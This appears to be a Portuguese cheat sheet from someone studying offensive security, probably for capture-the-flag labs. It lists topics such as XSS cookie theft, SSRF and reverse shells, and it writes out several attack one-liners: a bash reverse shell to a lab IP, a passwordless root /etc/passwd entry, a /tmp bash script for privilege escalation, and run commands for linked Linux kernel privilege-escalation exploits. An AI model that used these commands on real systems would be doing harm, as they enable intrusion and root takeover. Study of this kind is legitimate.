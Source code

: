 [[Cyber - Type Confusion]]
[[Cyber - Exploiting XSS-stealing cookies]]

Esteganografia
SSRF
Path hijacking

[[Cyber - Reverse Shell]]


---
Elastic Search
Wazuh

---

[[Cyber - Subdomain enumeration]]

---

echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh

Criar um usuário sem senha e com a shell do root : root4::0:0:root4:/root:/bin/bash

Fazer conexão remota : bash -i >& /dev/tcp/10.10.14.4/1234 0>&1

---

site de hashes : https://gchq.github.io/CyberChef/

---

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits?tab=readme-ov-file

---
https://github.com/xkaneiki/CVE-2023-0386
./fuse ./ovlcap/lower ./gc &
./exp